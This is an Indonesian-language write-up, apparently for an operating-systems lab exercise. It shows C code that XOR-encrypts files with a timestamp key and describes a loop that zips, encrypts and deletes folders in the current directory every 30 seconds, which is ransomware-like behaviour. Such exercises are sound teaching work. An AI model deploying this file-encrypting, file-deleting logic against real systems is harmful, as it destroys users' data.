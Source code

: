 Point **b**

Lalu untuk poin b adalah handler process untuk melakukan encryption filesystem dicurrent directory dimana binary ini dijalankan.

Pertama adalah membuat function `xor_file`, sesuai namanya function ini akan melakukan xor encryption dimana menggunakan key dari current timestamp sesuai dengan petunjuk soal.

```c
int xor_file(const char *filename, time_t timestamp) {
    FILE *file = NULL;
    unsigned char *file_buffer = NULL, *key = NULL;
    size_t key_length, file_size, i;
    int ret = 1;

    key = malloc(32);
    if (!key) goto cleanup;
    snprintf((char *)key, 32, "%ld", timestamp);
    key_length = strlen((char *)key);

    file = fopen(filename, "rb+");
    if (!file) goto cleanup;

    fseek(file, 0, SEEK_END);
    file_size = ftell(file);
    rewind(file);

    file_buffer = malloc(file_size);
    if (!file_buffer) goto cleanup;

    if (fread(file_buffer, 1, file_size, file) != file_size) goto cleanup;

    for (i = 0; i < file_size; i++) file_buffer[i] ^= key[i % key_length];

    rewind(file);
    if (fwrite(file_buffer, 1, file_size, file) != file_size) goto cleanup;
    ret = 0;

cleanup:
    if (file) fclose(file);
    free(file_buffer);

    if (ret != 0) {
        free(key);
        return 1;
    }

    return 0;
}
```

Lalu kemudian ini adalah function untuk melakukan handler processnya, dimana function ini akan membaca current directory dan melakukan encryption menggunakan metode zip, yaitu jika yang dibaca adalah folder maka dilakukan zip pada folder tersebut dan kemudian melakukan encryption dan folder sebelumnya dihapus, dan jika file bisa langsung dienkripsi secara langsung, dan akan terus berjalan dengan interval waktu 30 detik.
